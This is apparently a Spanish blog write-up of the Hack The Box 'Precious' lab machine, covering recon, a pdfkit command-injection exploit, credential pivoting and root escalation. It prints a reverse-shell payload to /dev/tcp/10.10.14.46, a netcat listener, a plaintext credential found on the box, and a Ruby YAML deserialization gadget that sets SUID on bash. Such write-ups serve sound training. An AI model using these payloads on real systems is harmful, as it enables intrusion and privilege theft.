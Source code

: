 ```yaml
---
title: "Precious HTB Writeup"
layout: single
excerpt: "Maquina HTB de dificultad facil, en esta maquina se ve como realizar un exploit a una aplicación web vulnerable usando una ejecución remota de comandos y un servidor local. La escalada de privilegios se basa despues en la explotación de un privilegio de sudo a un archivo .yml."
show_date: true
classes: wide
header:
  teaser: /assets/images/CTFs/Precious-HTB/icon.png
  teaser_home_page: true  
  icon: /assets/images/HackTheBox-icon.png
categories:
  - HackTheBox 
  - Easy
tags:
  - Web
  - YAML
---
```

![Precious](/assets/images/CTFs/Precious-HTB/header.png)

# Reconocimiento 🔎 

Como siempre realizamos un pequeño escaneo de puertos rápido con el siguiente comando buscando cualquier puerto abierto.

```bash
nmap -p- 10.10.11.189
```
![image](/assets/images/CTFs/Precious-HTB/01.png)

Continuamos con un escaneo más avanzado de estos puertos.
```bash
sudo nmap -sV -p 22,80 10.10.11.189
```
![image](/assets/images/CTFs/Precious-HTB/02.png)

Ahora vamos a configurar nuestro fichero `/etc/hosts` para poder ver el servicio http.

![image](/assets/images/CTFs/Precious-HTB/03.png)

Nos dirigimos hacia la web y vamos a poder ver que la web es un convertidor web a pdf.

![image](/assets/images/CTFs/Precious-HTB/04.png)

Así que para probarlo vamos a lanzar un servidor web en nuestra máquina local a través de python.
```bash
python3 -m http.server 80
```
![image](/assets/images/CTFs/Precious-HTB/06.png)

Así que ahora vamos a probar introduciendo la IP de la máquina atacante en el servicio web de la máquina víctima.

![image](/assets/images/CTFs/Precious-HTB/07.png)

Y como podemos ver se ha convertido nuestra web en un PDF como se esperaba, así que vamos a descargar el PDF para analizarlo con la herramienta `exiftool`.

![image](/assets/images/CTFs/Precious-HTB/08.png)

Vemos que ha sido generado por una herramienta: `pdfkit v0.8.6`. La cuál si hacemos una búqueda en Google, podemos ver que es vulnerable a `Command Injection`.

![image](/assets/images/CTFs/Precious-HTB/09.png)

Tras informarme más sobre este CVE, podemos saber que tenemos que introducir el parametro `name` y dentro usar los ``backticks`` para inyectar nuestro comando.<br>
- Para saber más sobre CVE-2022-25765:<br>
[https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795 ](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795) 

<br><br>

# Explotación 🔑
Vamos a probar si funciona el exploit mencionado anteriormente:
```bash
http://10.10.14.46/?name=%20`pwd`
```
![image](/assets/images/CTFs/Precious-HTB/10.png)<br>
Y vemos que funciona correctamente.

![image](/assets/images/CTFs/Precious-HTB/11.png)<br>

Así manos a la obra. Este será el payload que voy a introducir:
```bash
http://10.10.14.46/?name=%20`/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.46/4747 0>&1'`
```

Antes de lanzar el payload vamos abrir un listener con netcat:
```bash
nc -nvlp 4747
```
<br>
Ejecutamos el payload y ya tendriamos acceso a la máquina víctima.

![image](/assets/images/CTFs/Precious-HTB/12.png)<br>

Tenemos acceso al usuario ruby pero no existe ningún fichero para ejecutar como root, así que vamos a pivotar al usuario henry mediante el fichero `config` en el directorio `.bundle` que he encontrado.
```bash
ruby@precious:/var/www/pdfapp$ cd ~
cd ~
ruby@precious:~$ ls -la
ls -la
total 28
drwxr-xr-x 4 ruby ruby 4096 May  3 06:34 .
drwxr-xr-x 4 root root 4096 Oct 26  2022 ..
lrwxrwxrwx 1 root root    9 Oct 26  2022 .bash_history -> /dev/null
-rw-r--r-- 1 ruby ruby  220 Mar 27  2022 .bash_logout
-rw-r--r-- 1 ruby ruby 3526 Mar 27  2022 .bashrc
dr-xr-xr-x 2 root ruby 4096 Oct 26  2022 .bundle
drwxr-xr-x 3 ruby ruby 4096 May  3 06:34 .cache
-rw-r--r-- 1 ruby ruby  807 Mar 27  2022 .profile
ruby@precious:~$ ls -al .bundle 
ls -al .bundle
total 12
dr-xr-xr-x 2 root ruby 4096 Oct 26  2022 .
drwxr-xr-x 4 ruby ruby 4096 May  3 06:34 ..
-r-xr-xr-x 1 root ruby   62 Sep 26  2022 config
ruby@precious:~$ cat .bundle/config
cat .bundle/config
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
```
Accedemos al usuario henry mediante ssh:
```bash
ssh henry@10.10.11.189 
```
![image](/assets/images/CTFs/Precious-HTB/13.png)<br>
Ahora pasamos a la siguiente fase para terminar con el CTF.

<br><br>

# Escalada de Privilegios 🚀
Ya teniendo acceso al usuario henry el siguiente paso sería escalar los privilegios a root.<br><br>
Vamos a listar fichero que se ejecuta como root dentro del usuario henry:

![image](/assets/images/CTFs/Precious-HTB/14.png)<br>

Obtenemos el fichero `update_dependencies.rb` que podemos ejecutarlo como usuario root. Vamos a echarle un vistazo.

![image](/assets/images/CTFs/Precious-HTB/15.png)<br>

Mirando el código veo que utiliza un YAML.load, cuál es vulnerable a ataques de deserialización YAML.<br>
<br>
Puedes ver más sobre ataques de deserialización YAML en el siguiente enlace:<br>
[https://github.com/DevComputaria/KnowledgeBase/blob/master/pentesting-web/deserialization/python-yaml-deserialization.md](https://github.com/DevComputaria/KnowledgeBase/blob/master/pentesting-web/deserialization/python-yaml-deserialization.md)
<br><br>

Ahora podemos explotar con nuestro fichero `dependencies.yml`.

![image](/assets/images/CTFs/Precious-HTB/16.png)<br>
### dependencies.yml
```YAML
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: chmod +s /bin/bash
         method_id: :resolve
```
<br>

Ejecutar el fichero con permisos de ejecución root.

![image](/assets/images/CTFs/Precious-HTB/17.png)<br>
<br>
Y ya con esto tenemos el usuario root a nuestra disposición. Y poder conseguir la **FLAG**.

![image](/assets/images/CTFs/Precious-HTB/18.png)<br>
<br>

---

<br>
Espero que te haya servido de ayuda este post. Me ayudarías mucho si lo compartes en tus **RRSS**, GRACIAS!

